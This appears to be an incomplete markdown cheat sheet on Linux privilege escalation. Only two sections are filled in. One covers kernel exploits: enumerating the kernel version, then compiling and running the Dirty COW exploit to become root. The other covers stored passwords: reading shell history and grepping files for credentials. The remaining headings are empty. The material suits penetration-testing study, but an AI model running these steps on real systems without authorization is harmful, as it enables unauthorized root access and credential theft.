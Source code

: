 # Escalation Paths

1. [Kernel Exploits](#kernel-exploits)
2. [Stored Passwords](#stored-passwords)
3. [File Permissions](#file-permissions)
4. [Sudo](#sudo)
5. [SUID](#suid)
6. [Capabilities](#capabilities)
7. [Scheduled Tasks](#scheduled-tasks)
8. [NFS Root Squashing](#nfs-root-squashing)
9. [Docker](#docker)

## Kernel Exploits

* [Repo for common kernel exploits](https://github.com/lucyoa/kernel-exploits)

```shell
uname -a
#Google or searchsploit the version
#get exploit code

#we can also use linux-exploit-suggester
./linux-exploit-suggester.sh

#dirty cow exploit
gcc -pthread c0w.c -o cow
#creates executable for exploit

./cow
#privesc

passwd
#elevates user to root
```

## Stored Passwords

```shell
history

ls -la

cat .bash_history
#check for passwords

su root
#use root password

#for stored passwords
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
#check for passwords in current dir

#check using automated tools such as linpeas.sh
```

## File Permissions

## Sudo

## SUID

## Capabilities

## Scheduled Tasks

## NFS Root Squashing

## Docker
